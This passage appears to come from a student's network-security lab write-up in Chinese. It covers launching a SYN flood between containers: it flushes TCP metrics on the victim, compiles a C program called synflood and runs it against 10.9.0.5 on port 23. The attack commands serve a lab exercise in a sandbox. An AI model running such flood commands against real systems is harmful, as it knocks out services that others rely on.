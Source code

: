 ![](./hw0402/assets/task1-1-7.jpg)

#### Task 1.2: Launch the Attack Using C

在 `victim` 容器中執行以下指令清除 TCP 連線狀態:

```bash
ip tcp_metrics flush
```

在 `attacker` 安裝 `gcc` 後編譯 `synflood.c`，執行 `synflood` 進行 SYN Flood 攻擊:

```bash
apt update
apt install -y gcc
gcc -o synflood synflood.c
./synflood 10.9.0.5 23
```
